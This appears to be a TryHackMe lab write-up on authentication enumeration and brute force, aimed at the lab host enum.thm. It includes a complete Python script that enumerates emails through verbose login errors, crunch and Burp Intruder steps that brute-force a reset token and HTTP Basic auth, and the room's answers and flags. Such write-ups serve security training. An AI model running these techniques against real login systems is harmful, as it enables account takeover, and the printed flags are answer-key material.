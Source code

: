 # Enumeration & Brute Force

![image](https://github.com/user-attachments/assets/a9f303e9-3636-4cd1-8d78-2baf824c04e4)

**URL:** https://tryhackme.com/r/room/enumerationbruteforce

## Authentication Enumeration
In order to perform the brute force attacks, we must first figure out the authentication mechanism. The goal is to learn how everything is conncected, providing a blueprint for potential attacks.
  1. We must identify valid usernames or emails
  2. Identify passwords policies
These are the two main things we need to focus for the enumeration processes.
THere are several places to look for:

**Registration page**
- This is where we can enumerate both usernames and passwords policies. If a username has already existed, the application will prevent us from registering a new user using that same username.
- Similarly, we can find out password policies by trying different combinations. The errors displayed by the applications provide us with the password policies

**Password reset features**
- Password reset mechanisms are implemented differently on various applications. Some unintentional behavior / misconfiguration may provide sensitive information. For example, like registration page, when trying to reset password for a non-existing user, the application may display an error stating the user does not exist. We can leverage this message to exploit usernames (as existing users won't display these kinds of messages).

**Verbose error**
- These are errors messages displayed when users interact with the applications. "Users not found", "invalid token", "incorrect passwords" are amongst the most commonly used, which allows attackers to gain more information about the authentication process.

To enumerate the email:
1. Create a Python script `script.py`

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)
```

2. Download the email list from this [repository](https://github.com/nyxgeek/username-lists/blob/master/usernames-top100/usernames_gmail.com.txt)
3. Run the script against the downloaded text file in step 2
```bash
python3 script.py usernames_gmail.com.txt
```
And we found the email.

**- What type of error messages can unintentionally provide attackers with confirmation of valid usernames?**

`-> Verbose error`

**- What is the valid email address from the list?**

`-> canderson@gmail.com`

## Exploit vulnerability password reset logic
- Go to `http://enum.thm/labs/predictable_tokens/forgot.php` and submit a password reset for `admin@admin.com`
- Create an `otp.txt` file to bruteforce the token
```bash
crunch 3 3 -t %%% -s 100 -e 200 -o otp.txt
```
- Make a GET request to `http://enum.thm/labs/predictable_tokens/reset_password.php?token=123` and intercept the request using BurpSuite and send it to Intruder
- In Burp Suite, set the position `123` to be brute-forced
  
![image](https://github.com/user-attachments/assets/4b5e054d-d61c-4cbe-b5e6-c77793d2d68d)

- In the **Payloads** tab, load the `otp.txt` created in the previous step

  ![image](https://github.com/user-attachments/assets/e227b679-6b35-4458-b1ca-964f1315134e)

- In the **Settings** tab, add "Ivalid token" error message to filter the request that doesn't contain that message. This helps use quickly identify the valid token

![image](https://github.com/user-attachments/assets/3013ba97-9f22-4cfd-8fd6-2026c616a7d0)

- Once the valid token is found, view the Response body, which provides the new password for `admin@admin.com`. Use it to log in and retrieve the flag.

**- What is the flag?**

`-> THM{50_pr3d1ct4BL333!!}`

## Exploit Basic HTTP Authentication
- Go to the `http://enum.thm/labs/basic_auth`
- Attempt to login with credentials `admin:password`
- Intercept the traffic in Burp Suite
- In the `Authorization` field, highlight the value next to "Basic"
  
  ![image](https://github.com/user-attachments/assets/23d443e4-ee36-4b3e-b2bc-107d9c9a849b)

- Notice that on the right side under the **Inspector** panel, the text is decoded from Base64, which results from the login credentials.
- Send the request to Intruder to bruteforce
- Highlight the encoded text we just inspected so it can be brute-forced

![image](https://github.com/user-attachments/assets/52bf6e33-783f-4b0c-a2a9-fa9099f07d11)

- In the **Payloads** tab, load the password text from `/usr/share/SecLists/Passwords/Common-Credentials/500-top-worst-passwords.txt`

![image](https://github.com/user-attachments/assets/8ff67250-1626-4e4f-b5c1-a244036dee56)

- Scroll down to the **Payload Processing** section, add a rule. The first rule we add is `**Add prefix**` with value `admin:`

![image](https://github.com/user-attachments/assets/5f84b029-efb9-4914-998c-afb604428226)

- Add the second rule to Base64 encode the whole payload. The final result of the  **Payload Process** should look like this:

![image](https://github.com/user-attachments/assets/637898fc-a2d6-450d-b8e0-82a1f6de3b55)

- Start the attack, and we should get a valid payload to login for `admin`. Decode it and we should get the password.

**- What is the flag?**

`-> THM{b4$$1C_AuTTHHH}`
